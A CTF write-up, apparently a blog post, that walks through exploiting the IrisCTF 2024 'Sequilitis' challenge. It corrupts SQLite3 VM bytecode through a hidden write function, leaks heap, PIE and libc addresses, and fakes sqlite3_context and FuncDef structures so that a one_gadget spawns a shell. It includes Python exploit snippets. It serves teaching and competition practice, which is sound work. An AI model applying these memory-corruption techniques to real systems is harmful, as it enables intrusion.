



### Introduction
I played IrisCTF last week and found Sequilitis really interesting. Although I wasn't able to solve it during the CTF, I worked on it afterward. The challenge uses the SQLite3 engine, so we need to understand SQLite3 internals before diving into the challenge.

### Sqlite3 Internals
SQLite3 uses a bytecode engine. First, it translates SQL statements into bytecode, and then the generated bytecode runs in a VM. Each instruction is 24 bytes, i.e., 6 ints. The opcode takes the first 4 bytes, and the arguments take the rest. To take a look at the bytecode, we can use the `Explain` keyword, which gives us the bytecode of the SQL statement instead of executing it in the VM.



You can take a look at all the opcodes [here](https://www.sqlite.org/opcode.html#the_opcodes).

### Bug Analysis

The challenge essentially involves four things:

1. Adding a query.
2. Executing the query.
3. Deleting the query.
4. Exiting.

The functionality is pretty straightforward, but there is a hidden function called `inscribe()`, which is where the bug lies.

```c
void inscribe(sqlite3_stmt **stmt) {
  if(*stmt == NULL) {
    printf("There is no prepared statement at this location.\n");
    return;
  }

  int amount = *(int *)((void *)*stmt + 0x90);
  unsigned char *tome = *(unsigned char **)((void *)*stmt + 0x88);

  printf("How many characters will you inscribe (up to %d)? ", amount * 24);
  int actual = 0;
  scanf("%d", &actual);
  getchar();
  if(actual <= 0 || actual > amount * 24) {
    printf("Invalid amount.\n");
    return;
  }
  printf("Inscribe your message: ");
  for (size_t i = 0; i < actual; i++) {
    *tome = getchar();
    ++tome;
  }
  printf("\nIt has been done.\n");
}
```
The function takes the query index as the input and then allows us to overwrite the bytecode of that query.

### Getting Leaks

We know from the bytecode that the engine only handles 32-bit values. But how does it handle values that exceed this limit? The answer is that it uses pointers instead. For the query `select 0x1122334455`, this is the memory layout of the bytecode:



It handles queries like `SELECT 1.1` in the same way.

Now, what if we overwrite the last byte of the pointer with an address that points to some useful heap location? This would result in a heap leak. By exploiting this heap leak, we can achieve arbitrary read access on the heap. Utilizing this, we can leak the PIE address and then leak the printf GOT to obtain the libc address.

```python
def leak_val(addr):
    bytecode = generate_opcode(8, 0, 0, 0, 4, 0, 0) + p8(72) + p8(243) + p16(0) + p32(0) + p32(1) + p32(0) + addr
    sl(b"5\n1\n" + str(len(bytecode)).encode());
    sl(bytecode)
    sla(b"It has been done.", b"2")
    sl(b"1")
    ru(b"? ")
    return int(rl().decode().split(",")[0])

heap = leak_val(b"\xe0")
heap = heap - 0xe008
log.info("heap --> " + hex(heap))

baseleak = leak_val(p64(heap + 0x640))
base_addr = baseleak - 0xe3d87
log.info("base addr --> " + hex(base_addr))

printf = leak_val(p64(base_addr + 0x11aed8))
libc.address = printf - 0x606f0
log.info("libc --> " + hex(libc.address))
```

Now that we have all the leaks we need, We have to figure out how to get RIP control.

### Getting RIP Control

After looking at the opcodes, We can see that `function` opcode can help us get RIP control.

Here is the opcode description for `Function`:
```
Invoke a user function (P4 is a pointer to an sqlite3_context object that contains a pointer to the function to be run) with arguments taken from register P2 and successors. The number of arguments is in the sqlite3_context object that P4 points to. The result of the function is stored in register P3. Register P3 must not be one of the function inputs.<br><br>P1 is a 32-bit bitmask indicating whether or not each argument to the function was determined to be constant at compile time. If the first argument was constant then bit 0 of P1 is set. This is used to determine whether meta data associated with a user function argument using the sqlite3_set_auxdata() API may be safely retained until the next invocation of this opcode.|
```

Here are some useful structs:
```c
struct sqlite3_context {
  Mem *pOut;              /* The return value is stored here */
  FuncDef *pFunc;         /* Pointer to function information */
  Mem *pMem;              /* Memory cell used to store aggregate context */
  Vdbe *pVdbe;            /* The VM that owns this context */
  int iOp;                /* Instruction number of OP_Function */
  int isError;            /* Error code returned by the function. */
  u8 enc;                 /* Encoding to use for results */
  u8 skipFlag;            /* Skip accumulator loading if true */
  u8 argc;                /* Number of arguments */
  sqlite3_value *argv[1]; /* Argument set */
};

struct FuncDef {
  i8 nArg;             /* Number of arguments.  -1 means unlimited */
  u32 funcFlags;       /* Some combination of SQLITE_FUNC_* */
  void *pUserData;     /* User data parameter */
  FuncDef *pNext;      /* Next function with same name */
  void (*xSFunc)(sqlite3_context*,int,sqlite3_value**); /* func or agg-step */
  void (*xFinalize)(sqlite3_context*);                  /* Agg finalizer */
  void (*xValue)(sqlite3_context*);                     /* Current agg value */
  void (*xInverse)(sqlite3_context*,int,sqlite3_value**); /* inverse agg-step */
  const char *zName;   /* SQL name of the function. */
  union {
    FuncDef *pHash;      /* Next with a different name but the same hash */
    FuncDestructor *pDestructor;   /* Reference counted destructor function */
  } u; /* pHash if SQLITE_FUNC_BUILTIN, pDestructor otherwise */
};
```

If we fake these structures and overwrite the function pointer with a one_gadget, it will spawn a shell. To achieve this, we need to craft a fake `sqlite3_context` that points to a fake `FuncDef`. This `FuncDef` must contain the target pointer.

Fake sqlite3_context:
```python
payload = p64(0)
payload += p64(ptr1+0x38) #FuncDef *pFunc; which is now our controlled pointer.
payload += p64(0)
payload += p64(0)
payload += p32(0) + p32(0)
payload += p8(0) + p8(0)
payload += p16(0) + p32(0)
payload += p64(ptr1+0x64) #nulls
```

Fake FuncDef:
```python
payload += p8(0)
payload += p8(0) + p16(0)
payload += p32(0) + p64(0)
payload += p64(0)
payload += p64(oneGadget) # func* xSFunc --> out target function ptr 
```

Now that we have the fake structures ready, we will write them into memory by editing a query (1). Then, we'll make another query (2) to overwrite it with a function call, and subsequently execute it.

```python
edit_query(1, len(payload), payload)
new_query(2, b"SELECT 1.0")
bytecode = generate_opcode(66, 241, 0, 0, 0, 0, ptr1)
edit_query(2, len(bytecode), bytecode)
exec_query(2)
```

This should spawn us a shell!



You can find challenge files and exploit script [here](https://github.com/SanjayVardhan/pwn/tree/main/Origin/CTFs/IrisCTF2024/sequilitis)